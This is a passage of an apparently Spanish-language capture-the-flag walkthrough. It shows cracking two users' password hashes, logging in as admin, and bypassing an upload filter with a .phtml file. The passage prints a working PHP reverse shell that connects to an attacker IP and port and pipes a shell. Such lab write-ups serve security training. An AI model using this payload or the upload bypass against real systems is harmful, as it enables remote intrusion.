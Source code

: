 ```

[*] ending @ 10:34:41 /2025-02-01/
```

Vemos que nos saca varias credenciales, pero sus contraseñas estan `hasheadas` por lo que vamos a intentar `crackear` la contraseña al menos del usuario `admin` y `luisillo`, ya que los demas usuarios no tienen importancia.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
admin:0844575632
luisillo:mundodecaramelo
```

URL = [Pagina CrackNet](https://crackstation.net/)

## Escalate user www-data

Vemos que hemos conseguido `crackear` los dos usuarios, pero vamos a entrar con el de `admin` ya que tiene mas pinta el otro usuario de ser uno del sistema.

Por lo que tendremos que irnos al apartado de `login.php` y meter las siguientes credenciales.

```
User: admin
Pass: 0844575632
```

Una vez dentro como el usuario `admin` vemos que abajo del todo nos pone una opcion de `Ir al panel del administrador`, si le damos nos llevara a la siguiente direccion.

```
URL = http://<IP>/admin_dashboard.php
```

Si nos vamos a la seccion llamada `Configuracion` veremos que nos permite subir un archivo, vamos a probar a subir un archivo `.php` para crearnos una `reverse shell`, pero cuando lo subamos nos pondra que es potencialmente peligroso, por lo que vamos a intentar `bypassear` la extension, por si fuera la extension de la siguiente forma.

```shell
nano shell.phtml

#Dentro del nano
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

